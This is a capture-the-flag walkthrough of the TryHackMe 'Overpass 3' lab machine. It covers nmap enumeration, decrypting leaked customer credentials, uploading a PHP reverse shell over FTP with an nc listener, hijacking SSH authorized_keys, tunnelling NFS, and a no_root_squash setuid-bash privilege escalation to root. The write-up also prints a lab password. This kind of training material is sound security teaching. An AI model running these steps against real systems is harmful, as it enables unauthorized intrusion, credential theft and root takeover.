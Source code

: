 ```yaml
---
layout: default
title : Overpass 3 - Web Hosting - THM
---
```


![Screenshot_20220324_031714](https://user-images.githubusercontent.com/24994796/160209915-2f41711f-71af-4a91-9eae-60237a89aeef.png)

# Less chatting more hacking 🤤
Let's jump right into it 

Here we are working with couple of broke programmers who built a web hosting ......

Upon firing up the machine we get an IP address

First thing for every good security operative is enumeration
so we run an nmap scan to know which ports/services are up and running

![Screenshot_20220326_003154](https://user-images.githubusercontent.com/24994796/160210613-a77cc466-9717-4ee1-bb5e-11ba76dfcfa2.png)
After the scan we notice 3 ports opened and a bunch of vulnerebilities 
- Port 21,22 and 80 
- FTP,SSH and HTTP respecfully
- also notice on line 27,28 we already ran an http-enum and found two directories 
- lets keep those in mind for next time
Let's head on to our browser, load the website 
![Screenshot_20220326_003036](https://user-images.githubusercontent.com/24994796/160211351-b5006e30-7eb5-4b49-a362-f174c3c8d1ac.png)
We see the index page doesn't really give us much but we can clearly see staffs and their roles
Nothing major there except from an about page and Downloads
So heading on to the /backups directory we got from our scan we notice see a backup zip file 
We download it, extract it and were greeted with two files a gpg and a private pgp key file
![Screenshot_20220326_001459](https://user-images.githubusercontent.com/24994796/160211822-12de9c93-f934-4b7e-9486-c78fed62d191.png)
I guess we'll be learning a bit about pgp and gpg xD 
# Proceed to both this links if you want to learn about how to import keys and change a pgp passphrase

[Keys importion in PGP](https://makandracards.com/makandra-orga/37763-gpg-extract-private-key-and-import-on-different-machine)

[How to change gpg passphrase](https://blog.chapagain.com.np/gpg-how-to-change-edit-private-key-passphrase/)


First change directory to one the contains your backup extracted files 
make sure you have gpg installed on yyour machine 
then we get into it
In your terminal type this 
- sudo apt-get install gpg 
- gpg --list-keys 
notice nothing is returned
- gpg --list-secret-keys 
Now let's proceed to importing the keys 
- gpg --import private.key
- run the gpg --list-secret-keys 
Notice we finally get some keys

![Screenshot_20220326_004741](https://user-images.githubusercontent.com/24994796/160212412-a94c2a7a-c8ed-46e9-9847-06a1c7356563.png)

Now changing its passphase
- gpg --edit-key your-key-ID
Your Key will be in hexadecimals 
- gpg> passwd
You'll be asked to input your new password twice 
Let's just type overpass
- gpg> save
Save it

# Decrypting the gpg file
In order to decrypt an encrypted file on Linux, you have to use the “gpg” command with the “-d” option for “decrypt” and specify the “. gpg” file that you want to decrypt.
Again, you will be probably be prompted with a window (or directly in the terminal) for the passphrase.
- gpg -d CustomerDetails.xlsx.gpg 
- input your passphrase
Now head back to the foleder that contains the backup files, you'll notice a new file, open it

![Screenshot_20220326_011324](https://user-images.githubusercontent.com/24994796/160213471-14e62faf-ce34-4e36-8212-d6af23650147.png)

![Screenshot_20220326_011913](https://user-images.githubusercontent.com/24994796/160213859-44e83b4d-70ce-4198-983d-2a7b79a8ddd0.png)


We have login credentials where to use it ?
Remember in our scan we had FTP&SSH being open 
Upon trying the SSH with all login details we didn't have any successfull ssh login
Let's try the FTP
make sure you have ftp installed on your pc 
- sudo apt-get install ftp
- ftp "machine IP"
- it prompts us to give a user 
- and a password
Just have fun trying all the users and passwords 

After logging in, we run ls to list directories
we see the backups directory and some other things 
It seems that's web directory
lets upload our web rev shell (/usr/share/webshells/php/php-reverse-shell.php) or any php of your choice
change the ip and port to port of our preferance and IP to our attacker machine's

![Screenshot_20220324_152536](https://user-images.githubusercontent.com/24994796/160214017-3d0abbd9-e0c1-48de-9286-2286a46c8ead.png)

Set up your listner 
- rlwrap nc -lvnp PORT
Head to the website and chane the directory to IP/webshell name 

![Screenshot_20220324_153103](https://user-images.githubusercontent.com/24994796/160214407-451de196-ff68-48cd-b2e9-161638230135.png)

We should caught a shell 


So yes from ![Screenshot_20220324_152557(2)](https://user-images.githubusercontent.com/24994796/160214836-b0e9a821-ee1b-473b-a718-1b56a9230376.png)

That's our initial shell, 
make the shell a stable one (* that'll be your little task, use bash to stabilize the shell, but rlwrap is a pretty stable shell)
from THM hint the webflag is in the apache user path
- cat /etc/passwd
![Screenshot_20220324_220936](https://user-images.githubusercontent.com/24994796/160214960-fb08e394-53c0-4c01-bb7e-9a99f9b0be17.png)
- cd /usr/share/httpd (apache path)
- ls
- cat your web flag

we have a user paradox who we have his password so let's head to his path
- su paradox
- ShibesAreGreat123 (password)

so let's try getting the user flag now, Paradox lacks the right to

run linpeas.sh or you can go through a series of manual exploitation

pay attention to NFS 
we check /etc/exports 
and see that the user james has a share to his path and it has the root_no_squat option
on our pc try mounting this share 
- showmount -e "MACHINE IP"
- we noticed some sort of Firewall is blocking our share 
- so let's try ssh port forwarding nfs share trick

but before we do that let's get a user we can successfully ssh to

we noticed we couldn't ssh to paradox even tho we had his password 
lets try replacing his authorized_keys with ours 
- first get your ssh key open another terminal tab
- cd ~/.ssh 
- ls 
- cat id_rsa.pub
now we have that let's go back to our shell tab and change paradox authourized keys
![Screenshot_20220324_152701(2)](https://user-images.githubusercontent.com/24994796/160216007-e0214d80-1374-4124-a0db-38c6696efd65.png)

- after that head back to your tab 
- time for the port forwarding trick, the link below explains it quite well, you can head there later

[SSH Port forwarding on GitHub](https://gist.github.com/proudlygeek/5721498)

We run the following
Setup ssh tunnel
- ssh -fNv -L 3049:localhost:2049 paradox@MACHINE-IP 
![Screenshot_20220324_152739](https://user-images.githubusercontent.com/24994796/160216153-57f72cd7-65f9-4a85-9447-21419fe73dbe.png)
Mount the share
- mount -t nfs -o port=3049 localhost:/ /tmp/nfs
![Screenshot_20220324_152808](https://user-images.githubusercontent.com/24994796/160216187-043eef85-12fd-4457-bef4-2f19c26820fb.png)

so yh cd to the folder me mounted it to /tmp/nfs
- ls -la 
lists all files and folders
notice there's a .ssh folder, cd to it and cat the id_rsa.pub file 
so just ssh with it since we don't know the login
- ssh -i id_rsa.pub james@MACHINE-IP
![Screenshot_20220324_152851](https://user-images.githubusercontent.com/24994796/160216662-34572d73-5dae-457d-882a-8585bd8504ec.png)

![Screenshot_20220324_152959](https://user-images.githubusercontent.com/24994796/160216688-8e90ffe7-a381-48f0-802d-28b6a96e6bcb.png)
WE'RE IN 😎
cat out the user flag 

Now time for the privilege escalation path
pay good attention to this, things get tricky here
actually we use hacktricks trick xD

[Hack tricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)

Head back to our /tmp/nfs folder 
- cd /tmp/nfs
- cp /bin/bash . (note my personal experience was tht after a minute the Terminal was a hung there so i closed it and opend another and went back the /tmp/nfs folder again, listing files a bash file was there)
- chmod +s bash

Now head back to the james's ssh and the shared folder path

./bash -p 

gives drops us a root shell
![Screenshot_20220324_153023](https://user-images.githubusercontent.com/24994796/160217074-d1353f2d-cc78-473b-a756-6d065749cc9b.png)

and BOOM root access 🥸 🤯

so the last task of finding root flag is up to you
nah just kidding 
- cat /root/root.flag
and we should get our root flag

That's it for Overpass 3

Hit me up on [Twitter](https://twitter.com/abdulmalik_ttg) if you run into any issues



<br> <br>
[Back To Home](../../index.md)
<br>








